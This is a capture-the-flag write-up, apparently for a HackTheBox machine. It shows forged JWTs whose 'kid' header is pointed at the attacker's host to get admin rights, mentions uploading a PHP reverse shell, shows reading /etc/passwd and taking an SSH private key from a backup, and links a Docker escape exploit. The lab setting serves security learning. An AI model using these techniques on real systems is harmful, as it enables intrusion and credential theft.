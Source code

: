 # Enumeration

Nmap scan show us machine is openning these ports: `22,80,10010` 

Directory enumeration with gobuster
```
/login                (Status: 200) [Size: 1250]
/register             (Status: 200) [Size: 1422]
/admin                (Status: 403) [Size: 9]
/logout               (Status: 302) [Size: 209] [--> http://10.10.10.230/]
```
Visit the website, we explore the website functionality.

Register an account and login to the website

We see the website functionality is very basic, you can login and then you can add notes, view your own notes.

Viewing page source code doesn't show any interesting,

I use Burp Suite to explore the request, especially the request/response headers (my favorite place). You can tell a lot about what is running underneath based on the HTTP headers

I see they have Set-Cookie header. So every time we send a request to view notes, it uses `Cookie: auth=ey...` to identify our rights inside the website, and it is using JSON Web Token

I go to jwt.io to decrypt to token content and got this.

Token data:
```
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://localhost:7070/privKey.key"
}

{
  "username": "r3ot",
  "email": "1@gmail.com",
  "admin_cap": 0
}
```

I am familiar with Web Application and how they work, especially the jwt authentication. But I rarely see the `kid` ( Key ID) in the JWT header, and since it is using `RS256` alg, it must be signed by a private key and the `"kid": "http://localhost:7070/privKey.key"` is showing that where the back-end get the private key from.

I did some research on what is the `kid` header and can we manipulate it ?. I ran into this [article](https://blog.pentesteracademy.com/hacking-jwt-tokens-kid-claim-misuse-command-injection-e7f5b9def146)

In the aricle, they mention about `kid` parameter get the private key from an absolute path point to the private key inside the machine.

But our `kid` parameter is point to a file hosted by a web server.

So we can kinda guest that, they are doing some http request to that `localhost:7070` to get the private key. Like `os.popen(curl $(kid))` , or something like that.

To test our theory to see if the website is vulnerable to that, we can generate a jwt with this value (and signed it with our private key)

```
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://10.10.14.71:8000/a.txt"
}

{
  "username": "r3ot",
  "email": "1@gmail.com",
  "admin_cap": 1
}
```

**Note**: We modify and `kid` value to our local web server ( `python -m SimpleHTTPServer` can help you spin up a web server quickly) . We also modify the `admin_cap` value to `1` since we have control over these values.

Modify the Cookie value with our token

```
auth=<our_tokens
```

And then we send our request to server. Watch our local machine logs, we did receive request from the box by modifying `kid` value => It is vulnerable 

# Exploit

Now it's time to take a step further. We will modify the `kid` value and point the URL to our private key and have the box fetch private key from our machine, verify the token

```
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://10.10.14.71:8000/privKey.key" // Our private key
}

{
  "username": "r3ot",
  "email": "1@gmail.com",
  "admin_cap": 1
}
```

When the web server get our private key and verify it with our private key, our token become valid => We just got the admin priviledge inside the website

Go to `/admin` , we saw a upload file function and view all notes function

Click to view all notes, we can see that they have some notes:
- One is about PHP file being executed and it's not secure
- Second is about some backups

We can upload a php reverse shell file to get our reverse shell
=> We got RCE.


======================================================
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
noah:x:1000:1000:Noah:/home/noah:/bin/bash

====================================================
cp home.tar.gz /tmp
tar -zxcf home.tar.gz 
COPY id_rsa private key and login
=> got user

====================================================
sudo -l
(ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*

========================
Exploit: https://programmersought.com/article/71085031667/
Source code: https://github.com/Frichetten/CVE-2019-5736-PoC

Install Docker image without internet:
https://stackoverflow.com/questions/48125169/how-run-docker-images-without-connect-to-internet
